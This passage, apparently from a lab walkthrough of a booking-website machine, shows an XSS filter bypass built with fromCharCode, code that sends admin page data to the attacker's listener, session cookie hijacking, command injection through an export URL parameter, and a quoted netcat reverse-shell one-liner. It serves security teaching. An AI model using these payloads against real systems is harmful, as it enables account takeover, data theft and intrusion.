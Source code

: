 ![Ej464e.png](https://s2.ax1x.com/2019/05/19/Ej464e.png)

Log in with this user. It seems to be a booking website.

![Ej5nUO.png](https://s2.ax1x.com/2019/05/19/Ej5nUO.png)

![Ej4Lgs.png](https://s2.ax1x.com/2019/05/19/Ej4Lgs.png)

Click any booking and see the booking details. It consists of two tabs, including View and Notes. In Notes, one word is interesting: "All notes must be approved by an administrator - this process can take up to 1 minute." An administrator is always attractive to hackers. It seems that the note will be approved by the administrator. So it's possible to steal the session cookie of the administrator if there is an XSS vulnerability in the note edit form. I think it's the hardest part of this box. It's not easy to find the appropriate pass way. There is a way to utilize `fromCharCode` and other skills to pass the XSS filter. The following javascript code is utilized to generate the payload:

```javascript
var url = 'http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65';
var str = `$.ajax({method:'GET',url:'${url}',success:function(data){$.post('http://10.10.16.65',data)}})`;
console.log(str);
result = "";
for (var i = 0; i < str.length; i++) {
  result += str.charCodeAt(i) + ',';
}
result = result.substr(0, result.length - 1);
console.log(result);
var payload = `<img src="x/><script>eval(String.fromCharCode(${result}));</script>">`;
console.log(payload);
```
![Ejv2od.png](https://s2.ax1x.com/2019/05/19/Ejv2od.png)

Set kali to listen to port 80: `nc -lvnp 80`. The code can be run in the chrome dev. Input the generated payload into the note, wait a minute the data will be sent to kali. 

The cookie of the administrator is obtained which is HTML encoded. Decode it with a burp. And change the cookie in the storage of firefox. Refresh the web page. Now you can hijack the administrator session cookie. Access to `http://10.10.10.25:8000/admin`. There seems nothing special except two buttons, including Booking and Notes. 

![admin](https://s2.ax1x.com/2019/05/19/Ej4oE8.png)

![EjjOxK.png](https://s2.ax1x.com/2019/05/19/EjjOxK.png)

After some exploration, you will find that there is command injection in the two function url. You can try to access `http://10.10.10.25:8000/admin/export?table=notes%26ls`. You can find the directories in the exported file. One thing should be noticed, as `&` has been prohibited. So you can pass this by `%26`. Hence, it seems that the table name exists RCE. But it's limited to characters, numbers and `/`. So you should try to RCE by these. It's not possible to use the command to obtain reverse shell by command. For example, `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`. As many characters is not allowed.

![Ev7Txg.png](https://s2.ax1x.com/2019/05/20/Ev7Txg.png)
